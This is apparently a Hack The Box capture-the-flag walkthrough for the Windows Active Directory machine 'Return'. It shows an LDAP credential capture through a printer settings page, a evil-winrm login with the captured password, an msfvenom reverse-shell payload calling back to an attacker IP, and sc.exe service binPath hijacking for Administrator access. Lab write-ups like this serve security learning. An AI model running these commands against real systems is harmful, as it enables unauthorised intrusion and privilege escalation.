 ```yaml
---
title: 'HTB - Return'
author: paincakes
date: 2023-02-11 20:55:00 +0800
categories: [HTB, Easy]
tags: [AD, htb-walkthrough]
---
```



![Box-Info](https://paincakes.sirv.com/Images/HTB/Return/INFO.png)

# Summary
This Machine **Return** specially focuses on exploiting a printer’s configuration which was exposed on the website the server was hosting by which we could exploit it and get the credentials to access the machine. Then we see that were the are part of “Server Operators groups” which we could use for gaining access to the reverse shell with Administrator Privilege. It was an easy and straight forward box.


## NMAP Scanning

Let’s start with scanning the IP with NMAP to enumerate open ports and the services running on the host.

![NMAP](https://paincakes.sirv.com/Images/HTB/Return/nmap.png)

As we can see lots of ports are open, but the main take away is that this is a Windows Machine that is inside an Active Directory domain. If you are not sure, you can always tell by these usual suspects:

- Port 135/139/445 running SMB 
- Port 88 running Kerberos
- Port 389/636 running LDAP

We do have port 80 open which is running a Microsoft IIS Web Server so let’s check that
out first.


## Web Server Enumeration 

![Return](https://paincakes.sirv.com/Images/HTB/Return/Web%20Page.png)

It was a static webpage with only **Home** and **Settings** Page working.
 
![Return](https://paincakes.sirv.com/Images/HTB/Return/Settings.png)

The settings page is likely to be the settings of the Printer in the AD. It gives us the username `svc-printer`, but the password is hidden, looking at the browser console, only the Server Address text input works as the parameter of IP when you press the “Update” button.

We can change the server address to our IP address and listen to port 389 which uses insecure version of LDAP which returns the credentials in plain text when queried. So first checking our IP address and listen to port 389 using netcat.

![Return](https://paincakes.sirv.com/Images/HTB/Return/netcat.png)

Change the “Server Address” to our IP address and press “Update”.

![Return](https://paincakes.sirv.com/Images/HTB/Return/server%20ip.png)

The page will get stuck, and we will get the password of “svc-printer” from the LDAP query in our `netcat` listener.

![Return](https://paincakes.sirv.com/Images/HTB/Return/svc-password.png)

We get the pasword! ezpz

## Enumerating Shares

Accessing the shares using `crackmapexec` tool,

![Return](https://paincakes.sirv.com/Images/HTB/Return/cme%20smb.png)

We had READ/WRITE access on the shares, so maybe we can even access the PS shell using `evil-winrm` tool.

## Getting the $shell and User flag

`evil-winrm -u 'svc-printer' -p '1edFg43012!!' -i 10.10.11.108`

![Return](https://paincakes.sirv.com/Images/HTB/Return/evil-winrm.png)

We can find the user flag in the `C:\Users\svc-printer\Desktop\` directory.

![Return](https://paincakes.sirv.com/Images/HTB/Return/user%20flag.png)

## Privilege Escalation

Executing the command `net user` svc-printer shows us that we are part of the “Server Operators group”. Members of this group can start/stop system services. Server Operators have this capability, and the command gets executed with Administrative privileges, so we can modify the service binary path to obtain reverse shell with admin privilege.

![Return](https://paincakes.sirv.com/Images/HTB/Return/net%20user.png)

### Building Malicious .exe file with MSFvenom

We can use msfvenom to build a “exe” payload which establishes a reverse shell of the remote machine.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4545 -f exe > shell.exe`

![Return](https://paincakes.sirv.com/Images/HTB/Return/msfvenom.png)

From the `evil-winrm` remote connection we can easily upload our payload from its “upload” functionality.

### Getting  ROOT 

Now, Starting the `netcat` listener at port 4545 and running the following commands on the `evil-winrm` shell.

```
sc.exe config vss binPath="C:\Users\svc-printer\Documents\shell.exe”
sc.exe stop vss
sc.exe start vss
```

![Return](https://paincakes.sirv.com/Images/HTB/Return/start%20stop.png)

After executing the start command the terminal will freeze and we will get the reverse shell with Administrator privilege on our `netcat` listener.

![Return](https://paincakes.sirv.com/Images/HTB/Return/root%20shell.png)

The root flag is found in `C:\Users\Administrator\Desktop\` directory.

![Return](https://paincakes.sirv.com/Images/HTB/Return/root%20flag.png)

